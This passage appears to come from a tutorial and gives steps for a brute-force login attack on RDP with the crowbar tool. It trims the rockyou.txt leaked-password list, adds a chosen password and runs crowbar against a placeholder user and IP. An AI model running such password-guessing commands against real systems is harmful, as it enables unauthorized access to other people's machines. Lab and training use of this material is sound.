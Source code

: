 5. Just to use the first 20 lines, use the following command:
```
head -n 20 rockyou.txt > passwords.txt
```

<br>

6. To see the contents of the file, use:
```
cat passwords.txt
```

<br>

7. To edit the file in order to target a specific password, use `nano passwords.txt` >> add the password you've been using to the list >> Ctrl + X to save

<br>

8. To execute the tool, type the following command:
```
crowbar -b rdp -u [TARGET-USER] -C passwords.txt -s [TARGET-IP/32] 
```
